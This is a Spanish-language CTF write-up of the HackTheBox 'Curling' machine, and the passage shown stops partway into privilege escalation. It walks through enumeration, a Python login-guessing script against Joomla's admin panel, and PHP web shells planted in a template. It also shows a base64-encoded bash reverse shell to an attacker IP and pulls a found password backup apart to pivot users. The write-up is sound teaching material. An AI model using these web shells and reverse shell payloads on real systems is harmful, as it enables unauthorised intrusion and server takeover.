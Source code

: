 ```yaml
---
layout      : post
title       : "HackTheBox - Curling"
author      : lanz
date        : 2021-08-21 04:56:10
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160banner.png
category    : [ htb ]
tags        : [ joomla, backup, cURL-config-file, /etc/shadow ]
---
```

Máquina Linux nivel fácil. Ojos bien abiertos en la página web, jueguitos con **templates** de **Joomla**, loops de backups (?), movimientos sensuales con un archivo de configuración de **cURL** y ayudamos al usuario **root** a renovar su contraseña modificando el archivo **/etc/shadow**.

![160curlingHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160curlingHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [L4mpje](https://www.hackthebox.eu/profile/29267).

Juegue juegue, todo pelota!

Encontraremos un servidor web con el **gestor de contenido `Joomla`** bastante juguetón, inspeccionaremos código y texto para extraer credenciales. Estas nos serán válidas contra el panel admin de **Joomla**. Estando dentro modificaremos un `template` para que interprete código `PHP` "malicioso", usaremos esto para obtener una **Reverse Shell** como el usuario `www-data`.

En el sistema, específicamente en la carpeta `/home` del usuario `floris` encontraremos un archivo llamado `password_backup`, el tipo de archivo nos indicará que es un comprimido, pero al descomprimirlo obtenemos otro comprimido, jugaremos con eso para después de unas cuantas descompresiones obtener el archivo `password.txt` y conseguir una **Shell** como el usuario **floris** en el sistema.

Nos daremos cuenta de que el usuario `root` esta ejecutando unas instrucciones automatizadas que interactúan con dos archivos a los que tenemos acceso, `input` y `report`. ***input*** es un archivo de configuración de `cURL` (o sea, toma el contenido y si son comandos usados por **curl**, los ejecuta) y ***report*** guarda la respuesta de la petición o configuración dada en ***input***. Haremos que el archivo `input` lea archivos del sistema jugando con `file://`, como la instrucción la ejecuta ***root*** podemos leer cualquier archivo.

Usaremos esa habilidad para modificar el archivo `/etc/shadow` con otra contraseña para el usuario ***root***, esto para obtener una **Shell** en el sistema como él.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Algo juguetona, pero toca temas realistas y conocidos.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Vivo vivito.

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos **CMS Joomla**](#puerto-80).
3. [Explotación](#explotacion).
  * [Modificamos **template** de **Joomla** para conseguir **ejecución remota de comandos**](#joomla-template-rce).
  * [Obtenemos **Reverse Shell** en el sistema como <u>www-data</u>](#joomla-template-rce-reverseshell).
4. [Movimiento lateral **backup_password**: Vamos de **www-data** a **floris**](#backupassword-floris).
  * [Jugamos a descomprimir el comprimido del comprimido](#password-decompress).
5. [Escalada de privilegios](#escalada-de-privilegios).
  * [Explotando el archivo que toma **cURL** como "configuración"](#breaking-curlfig).
  * [Cambiamos la contraseña del usuario **root** para obtener una **Shell**](#shadow-root).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Inicialmente necesitamos saber que puertos tiene abiertos la máquina, los descubriremos con `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.150 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve dos puertos:

```bash
# Nmap 7.80 scan initiated Thu Aug 19 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.150
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.150 ()	Status: Up
Host: 10.10.10.150 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Aug 19 25:25:25 2021 -- 1 IP address (1 host up) scanned in 104.58 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Tenemos la opción de obtener una Shell de forma segura. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Esta sirviendo un servidor web. |

Ahora tenemos que profundizar un poco, necesitamos saber que versiones y script están siendo ejecutad@s por cada servicio (puerto), así nuestra próxima investigación es muuucho más pequeña:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.150
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80 -sC -sV 10.10.10.150 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
# Nmap 7.80 scan initiated Thu Aug 19 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 25:25:25 2021 -- 1 IP address (1 host up) scanned in 12.56 seconds
```

Tenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | Apache httpd 2.4.29 |

Lo único llamativo es `Joomla`, que es un *gestor de contenido* web. Sigamos profundizando a ver que encontramos.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

De primeras vemos 4 cosas interesantes:

* El título hace referencia a **dos herramientas**: `cewl` (para extraer el texto de una página web y convertirlo en un objeto de palabras (como un diccionario)) y `curl` (para realizar peticiones web desde una consola).
* Estamos ante el **CMS (gestor de contenido)** `Joomla`.
* Y hay un **login panel**.

---

🌈 ***`Joomla` como dijimos es un gestor de contenido que permite crear sitios web intuitivos, dinámicos e interactivos. Contiene así mismo un -panel administrativo- el cual sirve para modificar toooooodo el contenido que contenga la web.***

Si revisamos la interfaz web vemos mucho texto, esto junto a la referencia de `cewl` nos podría indicar que debemos crear un diccionario de toooooooodas las palabras e intentar hacer un ataque de fuerza bruta contra el login. Pero claro, nos faltaría saber el usuario con el que probar cada palabra...

Leyendo por encima los anuncios nos damos cuenta de que hay dos referencias a posibles usuarios e incluso una cadena que podría ser una contraseña:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_readingHOME_possibleCREDS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, ya tendríamos 3 usuarios con los cuales podríamos probar cada palabra de la web:

* `Super User` o `SuperUser` o `superuser` y distintas variantes.
* `Floris` o `floris` y variaciones.
* `pebble` o `Pebble`, etc.

Antes de eso veamos si existe algún recurso que el servidor esté sirviendo, pero que no veamos a simple vista:

```bash
❱ dirsearch.py -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.150/
...
Target: http://10.10.10.150/

[25:25:25] Starting: 
[25:25:25] 301 -  320B  - /administrator  ->  http://10.10.10.150/administrator/
[25:25:25] 301 -  310B  - /bin  ->  http://10.10.10.150/bin/
[25:25:25] 301 -  312B  - /cache  ->  http://10.10.10.150/cache/
[25:25:25] 301 -  317B  - /components  ->  http://10.10.10.150/components/
[25:25:25] 301 -  313B  - /images  ->  http://10.10.10.150/images/
[25:25:25] 301 -  315B  - /includes  ->  http://10.10.10.150/includes/
[25:25:25] 200 -   14KB - /index.php
[25:25:25] 301 -  315B  - /language  ->  http://10.10.10.150/language/
[25:25:25] 301 -  314B  - /layouts  ->  http://10.10.10.150/layouts/
[25:25:25] 301 -  316B  - /libraries  ->  http://10.10.10.150/libraries/
[25:25:25] 301 -  312B  - /media  ->  http://10.10.10.150/media/
[25:25:25] 301 -  314B  - /modules  ->  http://10.10.10.150/modules/
[25:25:25] 301 -  314B  - /plugins  ->  http://10.10.10.150/plugins/
[25:25:25] 403 -  300B  - /server-status
[25:25:25] 301 -  316B  - /templates  ->  http://10.10.10.150/templates/
[25:25:25] 301 -  310B  - /tmp  ->  http://10.10.10.150/tmp/
```

Vemos varios recursos y la mayoría son **redirects**, pero redireccionan al mismo recurso...

Todos son objetos que usa `Joomla` en su ejecución y funcionamiento, pero hay dos llamativos `administrator` y `tmp`. Revisando cada uno, simplemente **administrator** nos devuelve algo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_administrator.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Recuerdan que en la definición de **Joomla** dijimos que existe un ***panel administrativo** el cual sirve para modificar tooooooodo lo relacionado con el sitio web, pues es este (: Pero de nuevo estamos F, no hay credenciales para probar (además de las default, pero que no funcionan).

Ya con nada más a enumerar, tenía puesto en mi mente el crear el script para jugar (pero no sabía que me faltaba algo que siempre hago y que esta vez se me olvido (¿ya saben que puede ser?), genere la estructura del script, empece a armar las funciones y las demás cositas. Llego el momento de ver si existían tokens o variables locas que viajaban entre el formulario, con lo cual era necesario ver la estructura (HTML) de la web. 

En este caso lo que veremos ahora lo encontré al ejecutar un script en `Python` y viendo la respuesta de una petición web con el método `GET` hacia el ***home (`index.php`)***, pero también se puede ver simplemente inspeccionando el código fuente `HTML`.

```py
...
import requests

URL = "http://10.10.10.150"

r = requests.get(URL)
print(r.text)
...
```

En su ejecución la respuesta (`r.text`) nos muestra algo curioso al final:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_scriptPY_rTEXThome_secretsTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAYA VAYAAAAAAAAAAAaa lo que vemoooooooooooooos, hay un comentario que dice `secret.txt`, o sea referencia un archivo `.txt`, si intentamos buscarlo como recurso de la web, l o e n c o n t r a m o s:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_secretsTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una cadena extraña, pero tiene tintes de estar encodeada en [base64](https://es.wikipedia.org/wiki/Base64), validémoslo intentando decodificarla:

```bash
❱ echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

OIEEEEEEEEEEEEEEeeeEeeee, eso sí que parece una contraseña eh! Bastante feo, raro y mehh que este ese recurso ahí en la web como si nada y con un comentario en el **home** referenciándola, pero bueno, sigamos...

Ya tenemos dos cadenas que parecen contraseñas:

* `curling2018`.
* `Curling2018!`.

Y tenemos los usuarios de antes, pues en vez de jugar con diccionarios probemos rápidamente cada usuario "potencial" con las dos contraseñas:

```py
#!/usr/bin/python3

import requests
import signal
import re

# Variables -----------------------.
URL = "http://10.10.10.150/administrator/index.php"

# Funciones -----------------------.
def def_handler(sig, frame):  # Ctrl+C
    print("\nsaLi3ndoo..\n")
    exit(0)

signal.signal(signal.SIGINT, def_handler)

def login(username, password):  # tryLogin
    # Generamos una nueva sesión para cada intento
    session = requests.Session()

    # Extraemos tokens de sesión
    r = session.get(URL)
    hidden_return_value = re.findall(r'<input type="hidden" name="return" value="(.*?)"', r.text)[0]
    hidden_csrf_token_value = re.findall(r'<script type="application/json" class="joomla-script-options new">{"csrf.token":"(.*?)"', r.text)[0]

    data_post = {
        "username": username,
        "passwd": password,
        "option": "com_login",
        "task": "login",
        "return": hidden_return_value,
        hidden_csrf_token_value: "1"
    }
    r = session.post(URL, data=data_post)

    if "Username and password do not match or you do not have an account yet" not in r.text:
        print(f"Credenciales válidas: {username}:{password}")
        exit(0)

def main():  # elCentrico
    array_users = ["Super User", "Floris", "plebbe"]
    array_passwords = ["curling2018", "Curling2018!"]

    for username in array_users:
        for password in array_passwords:
            # Enviamos el usuario con algunas variantes, como MAYUSCULAS, minusculas, quitando espacios, etc.
            login(username.lower(), password)
            login(username.upper(), password)
            login(username.replace(' ',''), password)
            login(username.replace(' ','').lower(), password)
            login(username.replace(' ','').upper(), password)

    print("Ninguna credencial es válida...")

# Inicio del programa -------------.
if __name__ == '__main__':
    main()
```

Si lo ejecutamos, tenemoooooooooooooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_scriptPY_fuzzUsers_validCREDSjoomla.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAAAA, pues validémoslas en la web:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_administrator_LOGIN_DONEasFLORIS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y SIII, tamos dentro (:

...

# Explotación [#](#explotacion) {#explotacion}

🔥 [Si ya sabes como conseguir **RCE** modificando el template en **Joomla** puedes evitar mi explicación e ir directamente a como obtuvimos la **Reverse Shell**](#joomla-template-rce-reverseshell).

Ya dentro el conseguir una ejecución remota de comandos es muy sencillo, sigamos un post que me gusta mucho:

* [Joomla Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/).

Lo único que debemos hacer es modificar el contenido de un `template`, existen varios objetos, modificamos uno de ellos con nuestro código `PHP` y ya la web lo interpretaría (:

Por ejemplo hagamos que la web ejecute el comando `whoami` y que nos lo muestre:

---

## Modificamos <u>template</u> para conseguir <u>RCE</u> [📌](#joomla-template-rce) {#joomla-template-rce}

Debemos seguir esta ruta de clics, primero `extensions`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_extensions.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Después `templates`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_extensions_templates.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos algo así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en donde indica la flecha y llegamos a este apartado:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templates_list.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Seleccionamos cualquiera de los dos ***templates***, yo usaré `Beez3`, damos clic en su nombre y veríamos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_templateFILES_beez3.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Yo modificaré el archivo `error.php`, damos clic sobre él y empezamos a jugar...

El contenido original no nos interesa, lo borramos (o guardamos en algún lado para después volverlo dejar como si no hubiéramos modificado nada 🤭) y retomamos la idea de ejecutar `whoami`, el archivo quedaría así:

```php
<?php system("whoami"); ?>
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_whoami.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* [Manual PHP - system()](https://www.php.net/manual/es/function.system.php).

---

Lo siguiente será guardar el nuevo contenido del archivo `error.php`, damos `Save` y veríamos este mensaje:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_dashboard_template_beez3_errorPHP_saved.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perfecto, ahora solo debemos ver el contenido **interpretado**, siguiendo esta ruta llegamos al objeto `error.php`:

```html
http://10.10.10.150/templates/beez3/error.php
```

Yyyyy en la web veríamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_whoamiRCE_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OJOOOOOOOOOOOOOOOOOOOOOO, vemos que no hay errores y por el contrario se nos interpreta el contenido, nos indica que el usuario que ejecuta el servicio **Joomla** es `www-data`. ASÍ QUEEEEEE TEEEENEEEEEMOOOOOS ejecución remota de comandos sobre el sistema (:

Entablémonos una reverse Shell...

Podemos indicárselo en el mismo `sy, pero A MÍ me gusta guardar una variable desde el método `GET` que su contenido sea el que interprete la función `system()`, así no tenemos que estar modificando el contenido del template y solo jugamos con la variable `xmd`, veamos un ejemplo rápido. Esta sería la estructura del archivo `error.php`:

```php
<?php system($_GET['xmd']); ?>
```

Donde la petición recibirá una variable llamada `xmd` que contendrá nuestro comando y ese comando sería ejecutado por la función `system()`.

Guardamos y validamos el archivo en la web, ahora ejecutemos `hostname`:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=hostname
```

Yyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_GETvarXMD_hostnameRCE_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

LISTOOOONES, ahora si hagamos una reverse Shell (:

---

## Obtenemos <u>Shell</u> en el sistema como <u>www-data</u> [📌](#joomla-template-rce-reverseshell) {#joomla-template-rce-reverseshell}

Nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```

Generamos nuestro payload (lo que ejecutara el sistema) y lo encodeamos en **base64**:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.5/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo=
```

Una vez la petición sea recibida en nuestro puerto `4433` se generará una `/bin/bash`. 

Ahora **URLencodeamos** para evitar que `+` o `=` sean interpretados de manera errónea por la web, usaremos [esta web](https://www.urlencoder.org/):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_URLencode_revSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y lo que haremos para que el sistema entienda lo que le enviamos y lo interprete será:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo%3D | base64 -d | bash
```

Lanzamos la petición y en nuestro listeneeeeeeeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

TAMO DENTROOROROWOWOWOWOWOWOOWOW!!

...

He creado un script para automatizar la modificación del template y obtener ejecución remota de comandos desde él, se los dejo por si algo (con él no es necesario **URLencodear** nada):

🔢 [***joomlArce.py***](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/curling/joomlArce.py)

...

Antes de seguir hagamos un tratamiento de la **TTY**, esto para que nuestra Shell sea completamente interactiva, nos permita ejecutar `Ctrl+C`, tener histórico de comandos y movernos entre ellos.

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Ahora si sigamos...

...

# backup_password: www-data -> floris [#](#backupassword-floris) {#backupassword-floris}


Enumerando los directorios desde que obtenemos la reverse Shell hacia atrás vemos uno llamativo ¿lo ves?:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_lsLA_configurationPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un objeto con nombre `configuration.php` nos dice "investígame", así que hagámosle caso:

(Es muy grande 😏)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_configurationPHP_creds.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Entre todo lo que hay detallamos dos contraseñas, `$password` y `$secret`. Una de ellas es para el servicio `MySQL` y el usuario `floris`, si las probamos si nos permiten entrar al servicio `MySQL`, pero no encontramos nada útil en él :( e intentando reutilización de contraseñas tampoco obtenemos nada...

Enumerando el sistema, encontramos un dos archivos llamativos en el `/home` de **floris**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_lsLA_home.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* El directorio `admin-area`, pero no tenemos acceso a él aún.
* Por el contrario si tenemos acceso al objeto `password_backup`. 

---

## Descomprimiendo el comprimido del comprimido [📌](#password-decompress) {#password-decompress}

Veamos el backup...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_catBackupPassword.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El resultado de un dumpeo `hexadecimal` contra un objeto, pero ¿cómo sabemos que es de un objeto?, bueno, investigando existe una herramienta con la que podemos (entre muuuchas cosas) -revertir- ese contenido **hexadecimal** al original.

* [xxd - Unix, Linux Command](https://www.tutorialspoint.com/unix_commands/xxd.htm)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_xxd_revert.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues intentémoslo y guardemos el resultado en un archivo:

```bash
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/file_reverse
```

Y si validamos el archivo resultante vemos el tipo de archivo original:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: bzip2 compressed data, block size = 900k
```

Un comprimido [bzip2](https://es.wikipedia.org/wiki/Bzip2), pues démosle el nombre de archivo necesario e intentemos descomprimirlo:

(***Al ser poquitas veces las que debemos descomprimir el archivo, aprovecho para mostrarles el paso a paso***)

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.bz2
www-data@curling:/tmp$ bzip2 -d file_reverse.bz2
```

Y como resultado tenemos un nuevo objeto:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
```

Ahora tenemos un objeto comprimido con [gzip](https://www.ochobitshacenunbyte.com/2019/09/19/comandos-gzip-y-gunzip-en-gnu-linux/), descomprimámoslo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.gz
www-data@curling:/tmp$ gzip -d file_reverse.gz
```

Y obtenemos un nuevo `bzip2`:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: bzip2 compressed data, block size = 900k
```

Volvemos a descomprimirlo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.bz2  
www-data@curling:/tmp$ bzip2 -d file_reverse.bz2
```

Y como resultado ahora obtenemos:

```bash
www-data@curling:/tmp$ file file_reverse 
file_reverse: POSIX tar archive (GNU)
```

Un objeto [tar](https://www.howtogeek.com/248780/how-to-compress-and-extract-files-using-the-tar-command-on-linux/), descomprimámoslo:

```bash
www-data@curling:/tmp$ mv file_reverse file_reverse.tar.gz
www-data@curling:/tmp$ tar -xvf file_reverse.tar.gz 
password.txt
```

Nos devuelve el objeto `password.txt` y ese si parece ser un archivo de texto, validemos:

```bash
www-data@curling:/tmp$ file password.txt 
password.txt: ASCII text
```

Pos si, si vemos su contenido encontramos una cadena que si tiene toda la pinta de ser una credencial:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataSH_passwordTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues si la validamos ya sea con `su floris` o ejecutando en otra terminal `ssh floris@10.10.10.150`, vamos a obtener lo mismo, una **sesión en el sistema como `floris`**:

```bash
❱ ssh floris@10.10.10.150
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_ssh_florisSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PEEEERRRFECCCTOOOO!!

...

Cree un script en `bash` que va a moverse entre toooooodos los archivos modificando sus nombres y efectuando la dezcomprimhisazion:

🔢 [brutopress.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/curling/brutopress.sh)

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si recordamos había una carpeta bastante llamativa en el `/home` de **floris**:

```bash
floris@curling:~$ ls
admin-area  password_backup  user.txt
```

Veamos que hay en ella:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_lsLA_HomeAdminPanel.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmmm, si nos fijamos son archivos actuales y que tienen la misma hora-fecha de creación/modificación, YYYYY al estar en el grupo `floris` tenemos acceso a modificarlos y leerlos, curioso, bastante curioso...

Revisando el contenido de cada uno tenemos:

```bash
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

```html
floris@curling:~/admin-area$ cat report
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        ...
...
```

El objeto `report` tiene el mismo código **HTML** que si hacemos una petición hacia el recurso `http://10.10.10.150`, con lo cual sabemos que internamente también esta siendo ejecutado el **CMS** `Joomla`...

Sin entender muy bien que hacer me puse a enumerar que instrucciones o acciones están siendo ejecutadas de manera -automatizada- en el sistema.

Existen varios métodos, pero hay una herramienta llamada [pspy](https://github.com/DominicBreuker/pspy) que hace un recorrido por el sistema buscando tareas que se estén ejecutando.

Descargamos el binario de [acá](https://github.com/DominicBreuker/pspy/releases) y lo subimos a la máquina:

```bash
# Creamos entorno de trabajo
floris@curling:/tmp$ mkdir miacosa
floris@curling:/tmp$ cd miacosa/
floris@curling:/tmp/miacosa$ curl http://10.10.14.5:8000/pspy -o pspy
floris@curling:/tmp/miacosa$ file pspy 
pspy: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

Listo, ahora lo ejecutamos:

```bash
floris@curling:/tmp/miacosa$ chmod +x pspy
floris@curling:/tmp/miacosa$ ./pspy
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_pspy_FOUNDcurl.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAa, existen dos instrucciones siendo ejecutadas por el usuario `root` (por el **UID** (user id), ***root*** siempre tiene asignado `0`), pero solo una nos llama la atención, ya que esta interactuando con los archivos `input` y `report`, los dos objetos que encontramos antes y que tenían fecha-hora igual. ¡Ahí esta la razón de eso!!

Es ejecutada cada minuto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_pspy_FOUNDcurlEACHminute.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

La instrucción es sencilla:

```bash
